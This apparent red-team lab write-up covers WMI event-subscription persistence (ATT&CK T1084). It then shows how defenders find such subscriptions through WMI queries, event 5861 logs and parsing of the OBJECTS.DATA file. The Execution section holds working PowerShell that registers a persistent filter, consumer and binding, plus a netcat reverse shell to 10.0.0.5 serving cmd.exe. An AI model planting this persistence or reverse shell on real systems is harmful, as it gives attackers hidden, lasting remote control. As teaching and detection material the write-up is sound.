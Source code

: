```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1084: Abusing Windows Managent Instrumentation

WMI events are made up of 3 key pieces:

* event filters - conditions that the system will listen for \(i.e on new process created, on new disk added, etc.\)
* event consumers - consumers can carry out actions when event filters are triggered \(i.e run a program, log to a log file, execute a script, etc.\)
* filter to consumer bindings - the gluing matter that marries event filters and event consumers together in order for the event consumers to get invoked.

WMI Events can be used by both offenders \(persistence, i.e launch payload when system is booted\) as well as defenders \(kill process evil.exe on its creation\).

## Execution

Creating `WMI __EVENTFILTER`, `WMI __EVENTCONSUMER` and `WMI __FILTERTOCONSUMERBINDING`:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
# WMI __EVENTFILTER
$wmiParams = @{
    ErrorAction = 'Stop'
    NameSpace = 'root\subscription'
}

$wmiParams.Class = '__EventFilter'
$wmiParams.Arguments = @{
    Name = 'evil'
    EventNamespace = 'root\CIMV2'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 1200"
}
$filterResult = Set-WmiInstance @wmiParams

# WMI __EVENTCONSUMER
$wmiParams.Class = 'CommandLineEventConsumer'
$wmiParams.Arguments = @{
    Name = 'evil'
    ExecutablePath = "C:\shell.cmd"
}
$consumerResult = Set-WmiInstance @wmiParams

#WMI __FILTERTOCONSUMERBINDING
$wmiParams.Class = '__FilterToConsumerBinding'
$wmiParams.Arguments = @{
    Filter = $filterResult
    Consumer = $consumerResult
}

$bindingResult = Set-WmiInstance @wmiParams
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note that the `ExecutablePath` property of the `__EVENTCONSUMER` points to a rudimentary netcat reverse shell:

{% code-tabs %}
{% code-tabs-item title="c:\\shell.cmd" %}
```csharp
C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Observations

Note the process ancestry of the shell - as usual, wmi/winrm spawns processes from `WmiPrvSE.exe`:

![](../../.gitbook/assets/wmi-shell-system.png)

On the victim/suspected host, we can see all the regsitered WMI event filters, event consumers and their bindings and inspect them for any malicious intents with these commands:

{% code-tabs %}
{% code-tabs-item title="\_\_EventFilter@victim" %}
```csharp
Get-WmiObject -Class __EventFilter -Namespace root\subscription
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note the `Query` property suggests this wmi filter is checking system's uptime every 5 seconds and is checking if the system has been up for at least 1200 seconds:

![](../../.gitbook/assets/wmi-filter.png)

Event consumer, suggesting that the `shell.cmd` will be executed upon invokation as specified in the property `ExecutablePath`:

{% code-tabs %}
{% code-tabs-item title="\_\_EventConsumer@victim" %}
```csharp
Get-WmiObject -Class __EventConsumer -Namespace root\subscription
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/wmi-consumer.png)

{% code-tabs %}
{% code-tabs-item title="\_\_FilterToConsumerBinding@victim" %}
```csharp
Get-WmiObject -Class __FilterToConsumerBinding -Namespace root\subscription
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/wmi-binding.png)

Microsoft-Windows-WMI-Activity/Operational contains logs for event `5861` that capture event filter and event consumer creations on the victim system:

![](../../.gitbook/assets/wmi-filter-consumer-creation.png)

## Inspection

If you suspect a host to be compromised and you want to inspect any `FilterToConsumer` bindings, you can do it with PSRemoting and the commands shown above or you can try getting the file`%SystemRoot%\System32\wbem\Repository\OBJECTS.DATA`

Then you can use [PyWMIPersistenceFinder.py](https://github.com/davidpany/WMI_Forensics) by David Pany to parse the `OBJECTS.DATA` file and get a list of bindings like:

```bash
./PyWMIPersistenceFinder.py OBJECTS.DATA
```

![](../../.gitbook/assets/wmi-parser.png)

### Strings + Grep

If you are limited to only the native \*nix/cygwin utils you have to hand, you can get a pretty good insight into the bindings with the following command:

```csharp
strings OBJECTS.DATA | grep -i filtertoconsumerbinding -A 3 --color
```

Below are the results:

![](../../.gitbook/assets/wmi-strings-grep.png)

From the above graphic, we can easily see that one binding connects two evils - the evil consumer and the evil filter.

Now that you know that you are dealing with `evil` filter and `evil` consumer, use another rudimentary piped command to look into the evil further:

```csharp
strings OBJECTS.DATA | grep -i 'evil' -B3 -A2 --color
```

Note how we can get a pretty decent glimpse into the malicious WMI persistence even with simple tools to hand - note the `C:\shell.cmd`and `SELECT * FROM` ... - if you recall, this is what we put in our consumers and filters at the very [beginning](./#execution) of the lab:

![](../../.gitbook/assets/wmi-strings-grep2.png)

## References

Based on the research by [Matthew Graeber](https://twitter.com/mattifestation) and other great resources listed below: 

{% embed url="https://learn-powershell.net/2013/08/14/powershell-and-events-permanent-wmi-event-subscriptions/" %}

{% embed url="https://www.youtube.com/watch?v=0SjMgnGwpq8" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1084" %}

{% embed url="https://www.darkoperator.com/blog/2013/1/31/introduction-to-wmi-basics-with-powershell-part-1-what-it-is.html" %}

{% embed url="https://pentestarmoury.com/2016/07/13/151/" %}

{% embed url="https://msdn.microsoft.com/en-us/library/aa394084%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396" %}

{% embed url="https://www.eideon.com/2018-03-02-THL03-WMIBackdoors/" %}

{% embed url="https://docs.microsoft.com/en-us/previous-versions/windows/embedded/aa940177\(v=winembedded.5\)" %}

